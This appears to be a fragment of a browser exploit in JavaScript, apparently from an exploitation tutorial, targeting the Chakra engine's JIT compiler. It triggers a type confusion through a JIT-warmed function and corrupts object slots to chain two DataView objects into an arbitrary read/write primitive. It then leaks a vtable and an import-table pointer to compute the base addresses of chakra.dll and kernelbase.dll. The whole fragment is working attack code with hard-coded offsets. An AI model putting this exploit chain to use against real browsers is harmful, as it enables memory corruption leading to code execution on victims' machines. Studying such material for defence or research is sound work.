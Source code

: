 ```html
    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);       // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);       // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    document.write("[+] DataView object 2 leaked vtable from chakra.dll: 0x" + hex(vtableHigh) + hex(vtableLo));
    document.write("<br>");

    // Store the base of chakra.dll
    chakraLo = vtableLo - 0x5d0bf8;
    chakraHigh = vtableHigh;

    // Print update
    document.write("[+] chakra.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));
    document.write("<br>");

    // Leak a pointer to kernelbase.dll (KERNELBASE!DuplicateHandle) from the IAT of chakra.dll
    // chakra+0x5ee2b8 points to KERNELBASE!DuplicateHandle
    kernelbaseLeak = read64(chakraLo+0x5ee2b8, chakraHigh);

    // KERNELBASE!DuplicateHandle is 0x18de0 away from kernelbase.dll's base address
    kernelbaseLo = kernelbaseLeak[0]-0x18de0;
```